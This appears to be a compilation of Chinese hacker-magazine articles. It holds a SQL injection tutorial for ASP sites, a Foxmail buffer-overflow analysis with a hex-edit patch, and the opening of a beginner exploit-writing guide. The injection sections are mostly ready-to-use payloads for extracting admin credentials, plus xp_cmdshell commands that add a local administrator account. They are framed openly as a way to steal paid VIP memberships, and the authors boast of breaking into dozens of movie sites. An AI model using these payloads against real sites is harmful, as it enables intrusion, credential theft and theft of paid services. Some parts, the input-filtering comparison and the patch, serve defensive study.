ASP + Access，这个是非常常见的组合方式，也是大家很喜欢的组合，因为大部分收费电影网站、收费下载站，甚至会员区都是使用的这样的脚本系统。如果熟练掌握这种技术，看收费电影、下载收费程序、取得 VIP 会员账户就是很简单的事了。但是对这个组合的注入有时候比较头疼一些，如果服务器管理员没有改动默认的脚本系统数据库，注入非常方便，直接提交几个命令就可以了；但是如果管理员把数据库中的字段全部改成了自己才能看得懂的表达方式，比如把原来的管理表 `admin` 改成 `guanli121guanli`，把字段名 `name` 改成 `mingzimingming`，这样就不容易注入了，因为 Access 功能相对比较少一些，对它的注入一般是采用猜表名和字段名的方式，如果不是预先知道默认的表名，要自己猜测怪异的表名和字段名是几乎不可能的事情！所以管理员很懒吧！呵呵。

| 提交语句 | 语句解释 |
|---|---|
| `www.***.com/list.asp?id=1'`、`www.***.com/list.asp?id=1 and '1'='1`、`www.***.com/list.asp?id=1 and '1'='2` | 查看目标服务器的组合方式，确定存在注入漏洞。 |
| `list.asp?id=1 and 0<>(select count(*) from admininfo)` | 确定表名，常见表名有：`admin`、`manage`、`admin_userinfo`、`adminuser`、`article_admin` 等。 |
| `list.asp?id=1' and (select password from admin)` | 确定字段名，也就是最有可能存储账户信息的地方。常见账户字段有：`username`、`user_name`、`administrator`、`userid`、`adminname`、`user_name`、`admin`、`admin_user` 等。常见密码字段有：`userpass`、`password`、`pass`、`pwd`、`pword`、`adminpassword`、`adminpass`、`user_pass`、`user_password`、`user_pwd` 等。 |
| `list.asp?id=1 and exists (select id from password where id=1)` | 确定数据库中系统记录的 id 号，一般第一位就是管理员。 |

| 示例／语句 | 说明 |
|---|---|
| `list.asp?id=1' and (select Username from admin where Username='admin')<>''` | 确定管理员用户名。这里使用的是直接确定的方法，也就是直接用可能存在的用户名去猜。如果猜对了，页面将返回正常；错了就继续猜。 |
| `list.asp?id=1 and exists (select id from password where len(name)>6 and id=1)`<br>`list.asp?id=1 and exists (select id from password where len(pwd)>6 and id=1)` | 确定用户名和密码的位数，方便后面的猜测过程。一般用户名在 6 位以下，密码在 8 位左右。如果判断出密码是 16 位或者 32 位，可以考虑其可能为 MD5 等加密形式。 |
| `list.asp?id=1' and (select top 1 id from admin where id=1' and asc(mid(username,1,1))<100)` | 确定数据库中用户名的具体值，需要不断改动最后判断的 ASCII 值，直到返回正常页面。再用同样的方法猜出密码值。 |
| `www.***.com/login.asp`<br>`www.***.com/admin.asp......` | 通过上面的猜测得到账户和密码后，还需要寻找后台管理页面地址。常见后台地址有：`admin`、`admin_index`、`admin_admin`、`index_admin`、`admin/index`、`admin/default`、`admin/manage`、`admin/login`、`manage_login`、`manage_index`、`admin1`、`login_admin`、`ad_login`、`login`、`manage`、`manager`、`guanli`、`denglu`、`houtai`、`user`、`upload`、`root`、`main`、`install` 等。 |

# 使用工具实现注入

这里讲解一下使用手工的方式对最常见的 ASP + Access 和 ASP + SQL 的注入方式，顺带讲讲如何手工注入 ASP + Oracle，希望大家能学会将技术通用起来！

### 1. ASP + Access

这种组合最常见的是电影网站或者一些文章系统，一般服务器都会要求你注册或者是付费才能观看或者下载。对我们这些喜欢搞点网络安全技术的人来说，这样的限制当然是小儿科！下面我们一起用最常见的金梅系统做个测试，用手工＋工具的方式给大家讲解如何搞到 VIP 或者是管理员账户！目的是希望大家通过金梅这一个典型脚本系统而学会其他的 ASP + Access 系统的 SQL 注入方法！

> 刘流：春节期间 wtf 就是用这样的小技术搞了几十个电影站的，害得编辑部年假后集体看电影！呵呵，同样喜欢看电影的朋友可别错过了哦！

首先我们选个想看的电影，比如 wtf 最喜欢看的《大话西游之月光宝盒》，然后到百度或者 Google 里一搜索！结果多得让你吃惊，如果再加上“在线播放”几个关键字搜索的话，结果里有 80% 都是金梅电影系统，也正是我们今天的目标！来，选个速度快的试试：

```text
http://www.*vod.net/movie.asp?id=378
```

点击页面上的“下载电影”，服务器会返回登录页面，需要输入注册的账户和密码！天，注册要钱耶！不干，想挣咱的钱可没那么容易，还是让我“化技术为电影”吧！哈哈！

先加个单引号看看，返回标准的 Access 错误信息。

再继续提交 `and 1=1` 和 `and 1=2`，返回信息都确定存在注入漏洞，那下面我们就可以依次提交查询命令来获取管理员或者是普通账户的用户名和密码了！依次提交的命令为：

> **小提示**
>
> 金梅系统的默认表名是 `password`，默认账号字段名是 `name`，默认密码字段名是 `pwd`，这些数据可以从网上下载该版本源码得到，这也是分析脚本系统的必要途径之一，黑防原来专门介绍过金梅的漏洞，有兴趣的朋友可以翻看往期杂志。

```sql
-- 确定表名
and 0<>(select count(*) from password)

-- 确定字段名
and (select name from password)
and (select pwd from password)

-- 确定数据库中系统记录的最靠前的 id，最可能是管理员
and exists (select id from password)
```

看上去是不是很麻烦？的确也是，麻烦一些，不过经过几次这样的测试，你就知道该如何来应对这样的漏洞了。好了，我们现在来看看怎么利用工具达到事半功倍的效果——“臭要饭的！”隆重登场！哦，错了，是他写的工具亮相，呵呵！

“绝世猜解——SQL注入器”是我们首推的用来猜解 Asp + Access 的工具！它的使用非常简单，只需要把你怀疑有注入漏洞的页面复制下来，打开工具，选择程序上方的“CSC”按钮，在弹出的选项里具体设置就可以了，如图1。

分别填上有问题的 URL，需要猜解的管理员帐户、密码的字典路径和管理员口令就可以了，确定后返回页面，点击“go”按钮开始猜解，如果该页面存在漏洞，则程序会给出很明确的提示，然后开始逐步猜测各部分的信息，最后猜测的结果如图2。

请看下面结果框内，有很详细的说明，包括哪个页面有问题，存在哪些表名，哪些字段名，字段和密码的长度分别是什么，登录的 URL 在哪里等一系列手工猜测很麻烦的工作都被解决好了。等待一段时间后，程序的猜解将结束，会很清晰地列出猜解出的帐户和密码，如图3。

好了！猜解完毕，让我们登录电影网站的后台去看看！

去看看！里面可以添加用户，然后把你注册用户的会员时间改成公元2100年哦！呵呵，如图4。

大体上来讲，asp + access 的组合就可以用这个工具比较好地注入了，但是或许朋友们会发现一点：臭要饭的！的这个工具没有检测是不是 id = 1 的情况，所以，在使用的时候，有时候拿到的并不是管理员的帐户和密码，这也算是美中不足吧！

## 2. Asp+SQL

一般数据量比较大或者是数据存储强度要求高的情况下，采用的组合方式是 Asp + SQL，这种组合如果管理员或者建设者安全意识不到位的话，一切以能正常运行为目标，那就非常危险！我们甚至可以轻易地获取服务器的最高管理权限！什么？不信？那你看着！

首先我们找一个存在注入漏洞的 asp + sql 组合，用手工的方式对它进行数据访问和服务器攻击：还是先加个单引号看看运气，返回信息：

哈哈，熟悉的朋友一看就知道是个好机会：不但返回了 SQL 错误信息，连服务器上 Web 的绝对路径都暴露出来了！这对我们后面的攻击工作方便很多。

第一步先来看下网站上数据库的大体情况，分别使用下面的语句实现：

> 刘流：具体过程请参看 2004 年第 1 期《黑防攻击册》的《MSSQL 跨库查询，你想怎么玩？》，里面有详细介绍。

```
得到所有库名：
http://www.***.com/common.asp?id=-1 and 0<>(select count(*) from master.dbo.sysdatabases where name>'a' and dbid=6)

返回如图5所示。

这样我们也就得到了一个库名！呵呵，再改变提交命令中 DBID 的值，可以得出所有的库名！

得到某库中所有表名：
http://www.***.com/common.asp?id=-1 and 0<>(select top 1 name from list.dbo.sysobjects where xtype='U')

得到某表中的字段列表：
http://www.***.com/common.asp?id=-1 and 0<>(select top 1 name from admin.dbo.syscolumns where id=123743)

查询字段具体值：username 的值：
http://www.***.com/common.asp?id=-1 and 0<(select id from admin.dbo.admin where username>'1')

账号出来了：54tw，再提交一个查 password 的值：
http://www.***.com/common.asp?id=-1 and 0<(select id from admin.dbo.admin where password>'1' and username='54tw')
```

这样就分别得到了帐户和密码值了，拿到 Web 系统下登录，自然整个站点的数据随便我们访问了！

以上命令参考了以前《黑防》的文章，其实还有一种更简单的方法，它可以直接控制服务器！嘿嘿，操作简单、功力强大，实为居家旅行、必备佳品！

```
看看服务器的系统情况：
http://www.***.com/common.asp?id=-1 and 1=(select @@VERSION)

返回是 Win2000 + MSSQL，系统补丁都打了。

看看连接账号是什么权限：
http://www.***.com/common.asp?id=-1 and 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))

返回正常，证明当前连接的账号是服务器角色 sysadmin 权限！Good!

查看连接账号是不是用 sa 连接：
http://www.***.com/common.asp?id=-1 and 1=(SELECT System_user)

哈哈！再一次返回正常，这次逮到了！sa 可以比 administrator 的权限还高哦！

直接加上系统权限账户！
http://www.***.com/common.asp?id=-1; exec master.dbo.xp_cmdshell 'net user hack H@K /add'
http://www.***.com/common.asp?id=-1; exec master.dbo.xp_cmdshell 'net localgroup administrators hack /add'

Good！全部返回成功，直接用 3389 进去，哈哈哈哈哈哈……爽到抽筋！
```

> wtf：W博士安全讨论现在开始：“sa 权限比 administrator 权限高”，这个观点曾经和很多朋友讨论过；看起来这是不可思议的东西——很多朋友都认为系统里 administrator 的权限是最高的，怎么又出来一个 sa 比他还高呢？大致上可以这样理解：当数据库设置成 sa 全权访问的时候，从系统本身来看，它不但包含了 administrator 的所有权限，而且能直接控制数据库，是属于 LOCALSYSTEM 权限；而 administrator 是管理员权限，所以才说 sa 比 administrators 权限高——个人理解，有待讨论！很可能是错误的，大家有什么看法请直接给我们写信共同探讨；如果专门针对此问题做文章当然是非常非常非常地欢迎！mail to: wtf@hacker.com.cn，3Q！

上面是手工猜解的方法，如果单纯为了帐户或者数据访问，那可以很方便地使用工具直接搞定——SQL 注入分析器隆重出场，code by 小竹！

操作步骤更简单！直接复制有问题的 URL 到“注入地址框”内，点击“检测”就 OK！下面会列出详细的“判断方法”“注入方式”“数据库类型”，非常傻瓜化——虽然有时候检测到的信息会有错误！呵呵！

好，现在我们开始对上面手工猜测的地址进行工具猜解，依次猜测表名、列名、记录，最后得出的结果全面得让你吃惊，如图6所示：

啊啊，看见了吧？有好的辅助工具在人侵中帮忙，的确是让人非常开心的事！这个程序除了能猜解 asp + sql 的组合方式外，还可以猜解 asp + access 的组合，“据说”还能猜一些其他的数据库类型，不过我就没测试过咯，大家有兴趣可以自己去测试！

## 3. Asp+Oracle

> **小知识：ORACLE 数据库简介**

ORACLE 是以高级结构化查询语言（SQL）为基础的大型关系数据库，通俗地讲它是用方便逻辑管理的语言操纵大量有规律数据的集合，是目前最流行的客户／服务器（CLIENT/SERVER）体系结构的数据库之一。它具有以下特点：

- 引入了共享 SQL 和多线程服务器体系结构。
- 提供了基于角色（ROLE）分工的安全保密管理。
- 支持大量多媒体数据，如二进制图形、声音、动画以及多维数据结构等。
- 提供了与第三代高级语言的接口软件 PRO* 系列，能在 C、C++ 等主语言中嵌入 SQL 语句及过程化（PL/SQL）语句，对数据库中的数据进行操纵。
- 提供了新的分布式数据库能力。可通过网络较方便地读写远端数据库里的数据，并有对称复制的技术。

它的存储结构有两种：

- 物理结构  
  ORACLE 数据库在物理上是存储于硬盘的各种文件。它是活动的，可扩充的，随着数据的添加和应用程序的增大而变化。
- 逻辑结构  
  ORACLE 数据库在逻辑上是由许多表空间构成。主要分为系统表空间和非系统表空间。

现在一般非常大的数据量才使用 Oracle 数据库，常见的有电信的计费系统、各大商务中心的数据控制系统、跨国数据系统等，它是属于“专业级”的数据库系统——很容易想到，如果我们通过脚本注入能够获得一个大的 Oracle 数据库中的某些敏感数据，那危害和破坏就相当骇人听闻了！——这也是本人非常喜欢《黑客防线》的原因之一——要在攻击中才能体会出防护的艰辛和重要！（鼓掌！呵呵）

由于本人对 Oracle 的研究也只是停留在比较初级的阶段，再加上测试环境和条件的限制，所以 Oracle 数据库的脚本注入方式并不完美，下文只是筛选了我测试中的有用信息，而没有将我那长长的不断测试的错误信息拿出来，表面上看是对的，很有可能存在一些我不能发现的错误，希望精通这方面技术的高手不吝赐教，共同研究新的技术！

好！让我们开始，先看看普通的错误返回信息（图7）：

估计是可以注入的！让我们测试一下：

```
www.***.com/db.asp?per=1' and 0<>(select count(*) from all_tables) and '1'='1

返回正确，说明存在默认的系统表！再看看：

www.***.com/db.asp?per=1' and 0<>(select count(*) from user_tables) and '1'='1

返回正确！说明存在用户表，兴奋ING！就是它了，继续往下：

www.***.com/db.asp?per=1' and 0<>(select 1 from user_tables where table_name='ADMINISTRATOR')

好，出来一个！狂喜！再来：

www.***.com/db.asp?per=1' and 0<>(select count(*) from user_tab_columns where table_name='ADMINISTRATOR' and column_name like '%25NAME%25')--

呵呵！看出来了吗？

www.***.com/db.asp?per=1' and 0<>(select count(*) from user_tab_columns where table_name='ADMINISTRATOR' and substr(column_name,4,4)='NAME')

Good! Go on!

WWW.***.com/db.asp?per=11' and 0<>(select count(*) from user_tab_columns where table_name='ADMINISTRATOR' and column_name not in('NAME','PASS','ID'))--
```

OK！到这里一切都好了，花掉了我整整一星期的时间去排除问题，主要是里面的大小写区分、组函数支持、驱动连接方式等东西让人头大。上面的过程比较简单，而且是截取的中间几个步骤，大虾闲的时候帮我指点下，有几个疑问和小结论，提出来和大家一起讨论：

- 当语法错误时，会显示无效列名字。
- 组函数在某些语句里是不被允许的。
- 最郁闷的是我测试的时候竟然不支持 TOP！
- 和平常的空值表示不同，Oracle 的四个单引号表示空。

Oracle 和普通数据库不同，它区分大小写字母，害我走了很多弯路。

至于如何暴出东西，应该和驱动有关，这里是 OLEDB 方式，如果是 ODBC 应该和 MSSQL 一个道理，可以暴出东西。

## 总结

> 从个人的角度来说，之所以没有选择研究系统漏洞而选择了研究脚本和数据库是有我自己的原因的，因为系统漏洞深入下去很枯燥，整天的汇编接汇编，如果自己喜欢这样的工作倒还不错，像我这样思维不太严谨的朋友，最好还是不要和系统底层打交道，发现漏洞都会让你疯狂的！（绝对没有 BS 谁的意思，只是个人的一些小感受）。

脚本注入在 2003 年上半年的时候国外就发展得比较成熟了，国内除了几个牛人以外很少有人关注这个技术，但是后来人们发现系统漏洞很容易修补，很容易过时，但是脚本漏洞的修补就是个长时间、花精力的事，所以很多人都选择了后者，也才出现了今天脚本攻击在国内火热的情况；在这里劝国内的脚本程序开发者们一句话：

如果你不想让你的名字被某个团体永远连骂，那请你写程序时还是不要太烦躁！over！

# 寻找注入漏洞

## 脚本接受参数的方式

提交方式有 GET 和 POST 之分，如上面的 URL 那就是 GET 方式提交的，而一般的表单提交都是 POST 提交，在脚本代码中，以下面的方式接受获取提交参数值：

```asp
id = request.querystring("id")
fname = request.querystring("fname")
```

上面的就是获取 GET 方式所提交的值。

```asp
id = request.form("id")
fname = request.form("fname")
```

这上面的就是获取 POST（表单）方式所提交的值。还有一种就是两者都可以获取的方法：

```asp
id = request("id")
fname = request("fname")
```

上面不管你以 GET，还是 POST 的方式，脚本都接受所提交的参数，动网很多代码都是以这种方式获取的。

# 寻找真正的漏洞

如上面所提交的参数没有过滤，我们就可以进行 SQL INJECTION 攻击，怎么知道没有过滤？看下面的代码：

```asp
(A) id = request("id")
    sqlstr = "select * from users where id=" & id

(B) if not isNumeric(request("id")) then
        response.write "提交的非法参数"
        response.end
    end if
    if instr(request("fname"), "'") > 0 or instr(request("fname"), " ") > 0 then
        response.write "提交的参数中包括非法的字符"
        response.end
    end if
    sqlstr = "select * from users where id=" & request("id")
    sqlstr = "select * from users where username='" & request("fname") & "'"
```

我们来看 A 代码：A 代码没有对 ID 参数进行过滤，而直接加到 SQL 语句中去一行，就是没有过滤的代码，存在 SQL INJECTION 漏洞。

B 代码：首先检测提交的 ID 参数是不是数字，如果不是数字就提示非法参数，并结束后面的代码；再下面就是检测 fname 参数，fname 是一个字符型参数，代码过滤了单引号和空格，所以都不会存在问题，都不可能有 SQL INJECTION 漏洞。看明白了上面的代码，我相信，你拿到脚本代码，真的看，一定会找到相应的漏洞！

**脚本小子：** Foxmail 是国内普及率非常高的一个邮件收发程序，常常收发邮件的朋友大多都是使用它来完成日常的工作，可以想像一旦 Foxmail 出现漏洞，危害将多么严重！——很不幸，它还真的出了漏洞！

本文详细分析了 Foxmail 5.0 中 PunyLib.dll 邮件头解析的缓冲区溢出漏洞，如果利用这个漏洞，黑客可以远程获得用户的系统权限。可以预见，该漏洞的危害将是非常大的，大家看了分析后一定要记得赶快打补丁哦！

中国网络／软件圈子由这个漏洞曾引发一系列大讨论。各方对漏洞的态度让人担忧，对比一下发现漏洞的国内外软件开发公司对待漏洞发现者的态度、对漏洞本身的态度、对产品使用用户公布漏洞信息的态度，我们不能不拎出一个让人吃惊的结论：国人的安全意识普遍还赶不上想像的低！——国内的大多数软件开发厂商，对于软件安全的态度和对安全的了解，与国外的同行业对比简直是天壤之别！这，或许就是差距……

当然，我们也不能一味地指责软件／网络行业，某种意义上，软件开发行业也是安全行业的衣食父母和客户，支持国产软件也应该是安全公司应尽的责任。上述问题也有国内安全行业自身的问题，对于安全公司而言，对这些软件行业进行安全知识的普及和安全的培训，也是刻不容缓的事情。故，小编决定刊发本文！义不容辞！

文／图 [0x557.org]

## ——Foxmail PunyLib.dll 远程缓冲区溢出漏洞

- 难度等级：高
- 适合对象：程序员、安全人士
- 前置知识：溢出知识、汇编知识、IDA Pro 4.5、Vdebug 3.0 使用经验、Python 使用经验、C 语言

## 前言

Foxmail 的这个漏洞公布后闹得沸沸扬扬，具体情况就不说了，大家都有自己的见解，我在这里就不做过多的评论了。要说明的是此漏洞不是像传闻的那样只在用户回复该邮件时才被触发，该漏洞只要用户一收邮件就马上触发，包括使用远程管理照样可以触发，该漏洞十分危险，请用户赶快修补此漏洞。这里写给大家只是一些技术上的问题，例如会和大家说明我们是如何发现该漏洞的，使用什么工具进行进一步分析的，还有一些攻击代码时的问题和注意事项。

Mail 相关的 RFC 文档，为了熟悉这些 RFC，写了一些简单的 Python 脚本对 Sendmail 服务器进行测试。刚好那天 Foxmail 5.0 推出，我一贯支持国产软件，当然要拿来试用一下，便“顺便”测试了一下 Foxmail 5.0 的安全性。

第一个测试就是 From: 字段超长便出现了令人惊讶的 0x61616161，呵呵，这个现象当时真的令我非常惊讶，因为据我所知 Foxmail 是 Delphi 写的吧，怎么会出现这么经典的改写 EIP 的现象？深入研究了一下该溢出，发现漏洞存在于 Foxmail 目录下的 3rdparty 下的 PunyLib.dll 中，下面就是对该漏洞的分析。

> 脚本小子：在这之前给大家推荐一下 Python 语言，因为 Python 语言在处理字符串方面非常方便，所以经常使用 Python 来对软件进行 Blackbox 测试；而且因为 Python 集成了很多现成的应用协议，所以在测试应用程序时方便高效，很容易地发现漏洞。

### 漏洞发现

2003 年 9 月 1 日发现的这个漏洞，刚好是 Foxmail 5.0 beta1 公布的当天，0day vuln？其实发现这个漏洞真的没有什么技术含量，笔者个人认为纯粹是偶然。如果非说有什么技术准备、漏洞发现方法的话，那就是确实当时在做一些漏洞测试验证方面的项目，刚好在研究 sendmail 的相关漏洞与 Mail 相关的 RFC 文档。

### 漏洞分析

在漏洞分析中使用的静态分析工具是大家熟知的 IDA Pro 4.5，动态分析方面我们使用的是由 Ikeji 开发的 Vdebug 3.0，脚本方面就使用上面介绍的……Python 脚本。

经过分析，在 punylib.dll 中实际的堆栈调用关系如下：



以下是反汇编代码与注解：

```asm
反汇编代码截图（含注解）
```

### 详细代码分析请看光盘相关栏目

由以上可以看出，这是个典型的缓冲区溢出问题，乍看起来我以为 Foxmail 没做任何检查，其实上面可以看出来还是做了一定的检查。

```asm
.text:10002089    cmp ecx, 200h
.text:1000208F    jg  loc_10002200
```

但是检查的长度大于目的缓冲区的大小，所以产生了溢出，哈哈。

# 攻击程序编写

由于在邮件地址中长度有限制，我们只能把 shellcode 放在前面，在 Shellcode 中不能存在（0x00、0x0a、0x0d、0x3a、0x2f 等字符），而前面只有 256 个字节供我们放一段 Shellcode。在这里我们直接采用了在 Foxmail 模块中用到的 API 地址，硬编码，这样的 Shellcode 就比较小了。Shellcode 执行的功能是连接到某一个端口读取一段新的 Shellcode，然后再跳过去执行。我们直接用到了 Shellcode 在内存中的地址，由于 punylib.dll 中拷贝完数据后自动会在字符串末尾补足一个 0x00，所以我们可以用到 0x00xxxxx 这样的地址。这样只需要猜测对方的系统是 XP or 2000 即可。

由于程序代码比较长，故完整的代码收录到光盘中，请见 vFoxmail_v1.c，有兴趣的读者可自行参考、编译。

# 补丁修补

在官方补丁出来之前，为了防止受到攻击，我们决定直接使用 16 进制编辑器修改动态链接库的方法来实现静态修补。

下面我将介绍静态修补的依据和实现，因为要成功修补漏洞，首先要知道出问题的准确地点。

这个溢出问题出在 PunyLib.dll，通过反汇编静态分析，我们知道 Foxmail 在检测邮件头时调用了这个动态链接库里面的 UrlToLocal 函数，这个函数在调用一个分析 Url 地址的函数时，由于分配的内存空间太小，造成了溢出。

大概调用情况应该是这样的。UrlToLocal 函数首先会调用一个函数处理邮件头里面的 Url 字符，像 http:// 等，如果长度大于 0x200（也就是 512 字节），就不往下处理，汇编代码如下：

```asm
.text:10002089    cmp ecx, 200h
.text:1000208F    jg  loc_10002200   ; 如果大于0x200字节就不处理
.text:10002095    test ecx, ecx
.text:10002097    jle loc_10002200
.text:1000209D    push edx
.text:1000209F    call _strdup
.text:100020A3    mov ebx, eax
.text:100020A5    add esp, 4
.text:100020A8    test ebx, ebx
.text:100020AA    jnz short ...
loc_10002089: ; 继续处理
```

如果继续处理的话，最终会进入下面这段汇编代码：

```asm
.text:10001A30 sub_10001A30 proc near
.text:10001A30
.text:10001A30 var_104 = dword ptr -104h
.text:10001A30 var_100 = dword ptr -100h
.text:10001A30 arg_0   = dword ptr  4
.text:10001A30 arg_4   = dword ptr  8
.text:10001A30 arg_8   = dword ptr 0Ch
.text:10001A30 arg_C   = dword ptr 10h
.text:10001A30 arg_10  = dword ptr 14h
.text:10001A30 arg_14  = dword ptr 18h
.text:10001A30         sub     esp, 104h

// 分配 0x104 长度的缓冲区，前面检测的长度是允许 0x200，
// 所以如果超过 0x104 就会造成溢出

.text:10001A36         push    ebx
.text:10001A37         mov     ebx, ...
.text:10001A3E         push    ebp
.text:10001A3F         mov     ebp, ...
.text:10001A46         push    esi
.text:10001A47         xor     esi, esi
.text:10001A49         cmp     ebp, esi
.text:10001A4B         push    edi
.text:10001A4C         mov     ...
.text:10001A50         jle     short ...
.text:10001A52         mov     edi, ...
.text:10001A59         ...
```

从上面的汇编代码我们可以知道，如果在前面检查长度的时候（.text:10002089 cmp ecx, 200h）限制长度在 0x100，就不会出现溢出问题了。所以我们静态修改的目标应该是把 `cmp ecx, 200h` 改成 `cmp ecx, 100h`。

通过静态反汇编分析，我们知道有两个地方调用了 `sub_10001A30`，其中一个地方是 `.text:100022CE`。

接下来我们就要通过 16 进制编辑器修改 PunyLib.dll 了。我使用的编辑器是 Hex Workshop，打开动态链接库后，在编辑器里面我们找到这两个地方，在 PunyLib.dll 里面的偏移是 `0x0000208C` 和 `0x000022D1`，把这两个地方的 `02` 改为 `01` 然后保存就可以了。

## 编后

一次又一次漏洞发现者的原创作品，一篇又一篇最前沿的技术文章，一个又一个最痴迷的安全故事……无数的安全事件在我们面前公开，但这个漏洞的公布算是最让人兴奋不起来的一次。唉，国内的 IT 产业看来需要跟随灌顶了……国民当自强！

脚本小子：常有读者抱怨写 Exploit 是多么多么的困难，难以找到适合自己菜鸟特性的教程，虽然网上有很多教程，但大部分都是针对 *nix 类操作系统的，这无疑给菜鸟们设置了一道门槛，偶尔有一些心得，但是都难以找到合适软件加以实践。如果你是菜鸟，如果你想编写真正属于自己的 Exploit，该怎么办呢？

# 菜鸟版 Exploit 编写指南



文／F.Zh

- 难度等级：中
- 适合对象：系统漏洞研究人员、安全爱好者
- 前置知识：汇编语言基础，溢出基本原理

从早期的 icq／ida 到 webdavx 漏洞，一直以来大家都是用大虾们写的溢出利用程序，在看过了很多溢出入门的文章后，我忍不住也试着学习一下。这些文字也算是一些心得体会，拿出来献丑的原因，一是和同样身为菜鸟的朋友们交流一下，二来还留下了一些问题，希望高手们能够看到后花百忙中抽出一点时间，指点一下迷津。

一般的溢出入门文章，都是自己写一个有弱点的程序然后来 Hack，感觉上总是有点不过瘾，所以我想试试弄一个实战的演习，偶然间就选定了 CMail Server 4.0。漏洞报告称这个 Mail 服务软件的 3.3 版本有漏洞，不过我在看的时候发现 4.0 版本存在相同的漏洞，也就拿它来做了实验（附带一句，这个邮件服务软件现在的最高版本是 5.2，已经是安全的）。

就算你没有看过溢出的文章，我想只要有一点汇编的基础，我们一起走上这么一次，以后看见漏洞公告，一般的溢出程序就可以应付一下（这个软件在杂志附带的光盘里面附送，在一起的还有一个调试工具 Ollydbg）。

打开一个 VC 的窗口，OK, let's go~！

安装好 CMail，我们先试试看触发这个溢出，在 cmd 窗口下面输入“telnet localhost 110”，然后输入 USER 和一长串的 A，接着回车，哗……弹出了一个出错的窗口，上面写着“0x61616161 指令应用的 0x61616161 内存。该内存不能为 read”，如图 1 所示。

